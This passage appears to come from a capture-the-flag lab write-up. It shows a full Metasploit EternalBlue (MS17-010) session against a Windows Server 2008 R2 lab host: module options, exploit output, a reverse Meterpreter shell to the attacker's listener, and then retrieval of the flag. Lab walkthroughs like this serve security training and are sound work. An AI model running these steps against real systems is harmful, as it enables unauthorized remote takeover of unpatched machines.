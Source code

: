 ```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.150.150.11
RHOSTS => 10.150.150.11
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.66.67.174:4444
[*] 10.150.150.11:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.150.150.11:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 10.150.150.11:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.150.150.11:445 - The target is vulnerable.
[*] 10.150.150.11:445 - Connecting to target for exploitation.
[+] 10.150.150.11:445 - Connection established for exploitation.
[+] 10.150.150.11:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.150.150.11:445 - CORE raw buffer dump (53 bytes)
[*] 10.150.150.11:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.150.150.11:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 10.150.150.11:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 10.150.150.11:445 - 0x00000030  61 63 6b 20 31                                   ack 1
[+] 10.150.150.11:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.150.150.11:445 - Trying exploit with 12 Groom Allocations.
[*] 10.150.150.11:445 - Sending all but last fragment of exploit packet
[*] 10.150.150.11:445 - Starting non-paged pool grooming
[+] 10.150.150.11:445 - Sending SMBv2 buffers
[+] 10.150.150.11:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.150.150.11:445 - Sending final SMBv2 buffers.
[*] 10.150.150.11:445 - Sending last fragment of exploit packet!
[*] 10.150.150.11:445 - Receiving response from exploit packet
[+] 10.150.150.11:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.150.150.11:445 - Sending egg to corrupted connection.
[*] 10.150.150.11:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.150.150.11
[*] Meterpreter session 2 opened (10.66.67.174:4444 -> 10.150.150.11:52184 ) at 2022-04-21 08:16:47 -0400
[+] 10.150.150.11:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.150.150.11:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.150.150.11:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > shell
Process 3580 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

After setting the required options , we get a shell. Looking around, we see we have several users on the system. Looking around the Administrator's Desktop Dir, we get the flag.

